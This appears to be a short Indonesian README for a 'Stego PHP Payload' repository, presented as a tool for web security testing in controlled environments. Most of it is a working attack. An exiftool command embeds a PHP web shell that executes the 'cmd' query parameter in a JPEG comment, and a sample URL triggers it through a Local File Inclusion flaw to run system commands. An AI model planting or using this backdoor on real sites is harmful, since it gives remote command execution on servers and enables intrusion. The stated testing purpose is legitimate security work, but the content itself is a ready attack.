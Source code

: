 # Stego PHP Payload
Steganografi untuk menyisipkan payload PHP dalam file gambar, digunakan untuk pengujian keamanan web di lingkungan terkontrol. 

# Payload
Sisipkan backdoor kedalam sebuah file gambar dengan <a href="https://exiftool.org/" target="_blank">Exiftool</a> :

```
exiftool -Comment='<?php system($_GET["cmd"]); ?>' kucing.jpg -o shell.jpg
```

# Eksekusi
Eksekusi backdoor pada file gambar melalui celah Local File Inclusion (LFI). Meskipun terdapat validasi ekstensi dan MIME type, serangan tetap dimungkinkan karena adanya kerentanan LFI :

```
https://example.com/index.php?page=uploads/shell.jpg&cmd=whoami
```


